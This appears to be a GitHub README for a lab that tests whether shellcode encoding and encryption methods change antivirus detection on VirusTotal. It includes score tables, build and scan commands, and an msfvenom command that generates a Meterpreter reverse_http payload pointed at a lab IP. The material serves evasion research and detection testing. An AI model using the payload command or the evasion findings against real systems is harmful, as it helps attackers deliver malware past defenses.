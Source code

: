 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Background

I see RedTeam research like [Adventures in Shellcode Obfuscation!](https://redsiege.com/blog/2024/09/adventures-in-shellcode-obfuscation-part-14-further-research/), a 
[14 part series](https://redsiege.com/adventures-in-shellcode-obfuscation/)
of hiding shellcode using various different encryption- or encoding ciphers. 

In the security scene, the myth perpetuates: How you encode a shellcode has an
influence on the detection rate. The assumption is, that somehow an AV or security software
has a unique ability to automagically reverse engineer encryption ciphers, and also
have a quantum computer integrated to crack the key. 

The truth is: AV doesnt know shit. 

RedSiege came to the following wrong result:

| Technique          | VT Score |
| ------------------ | -------- |
| XOR Multibyte Key  | 2        |
| Offsets            | 2        |
| Jargon             | 3        |
| Reverse Byte Order | 4        |
| Jigsaw             | 4        |
| Reversed Byte XOR  | 5        |
| IPv4               | 6        |
| MAC Address        | 6        |
| Caesar             | 7        |
| RC4                | 7        |
| XOR                | 8        |
| AES                | 8        |
| Two Array          | 8        |
| Reverse String     | 13       |
| UUID               | 13       |
| Base64             | 18       |
| No Obfuscation     | 27       |


But didnt bother to question the data. There are many issues with it: 

* Why are the top three Base64, UUID, and reverse hex string? Especially the later is very obscure
* No negative test (without malicious shellcode)
* Some programs are written in C, some in C#
* Some use WinAPI (AES, RC4, UUID) which are either an IOC, or may block AV emulator
* ReverseXor brute forces the key
* In jargon.c they mention that Defender detects the decryption routine itself. Same in xor_multibyte
* As they store the shellcode in a variable, static analysis tools can try out their deobfuscation on all the variables (explains high detection of ReverseString and Base64)
* Scans performed with large intervals between them (weeks?)

Which means that the test has been performed wrong, and the results are invalid. 
Any conclusion based on the data is also invalid - and building [trainings](https://redsiege.com/training-av-edr-evasion/) on it distributes the misinformation. 

Luckily RedSiege published the [shellcode encoder sources](https://github.com/RedSiege/Chromatophore).
I made this framework based on it to test it for myself. 


## Predictions

* Which encryption you use doesnt matter - they all equally resistant to analysis
* Using windows API's will increase detection rate


## Results

Tests have been performed with either "random" - a alphanumeric 20 byte string as "shellcode". And "metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "metasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* The type of encoding/encryption doesnt matter
* More important is if a windows API is being used/imported (static analysis, e.g. IAT in PE)
* Note that the "NO-obfuscation" (plaintext) metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding
* VirusTotal has maybe one memory scanner. The rest seem to be static analysis. 

| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| aes                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | **5**          | **6**              |
| base64             | \-                    | \-                        | \-                                 | 3          | 3              |
| base64api          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | **5**          | **6**              |
| bin2ip             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | **8**          | **10**             |
| bin2mac            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | **8**          | **18**             |
| cesar              | \-                    | \-                        | \-                                 | 2          | 2              |
| jargon             | \-                    | \-                        | \-                                 | 3          | 2              |
| jigsaw             | \-                    | \-                        | \-                                 | 2          | 3              |
| offset             | \-                    | \-                        | \-                                 | 2          | 3              |
| rc4api             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| reverse_byte_order | \-                    | \-                        | \-                                 | 2          | 2              |
| reverse_hex_string | \-                    | \-                        | \-                                 | 2          | 2              |
| twoarray           | \-                    | \-                        | \-                                 | 2          | 3              |
| uuidapi            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | **8**          | **11**             |
| xor_multibyte      | \-                    | \-                        | \-                                 | 1          | 2              |
| xor_reverse        | \-                    | \-                        | \-                                 | 2          | 3              |
| xor_single         | \-                    | \-                        | \-                                 | 1          | 3              |
| **NO OBFUSCATION**     | \-                    | \-                        | \-                                 | 2          | 3              |


The results of the test are at [lab_results/](https://github.com/dobin/ShellcodeObfuscationLab/tree/main/lab_results). 
For example the generated [aes.c source code](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c),
and its [VirusTotal result](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes.exe.json).


## SOL Usage

Use the `x64 native tools command prompt` from Visual Studio so you have access to `ml.exe` and `Windows.h`. 

To compile all the source from `chromatophore/` into `output/*.exe`:
```
> python.exe sol.py compile
```

To send all the exes to VirusTotal:

```
> set VT_API_KEY=123...
> python.exe sol.py vt
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 

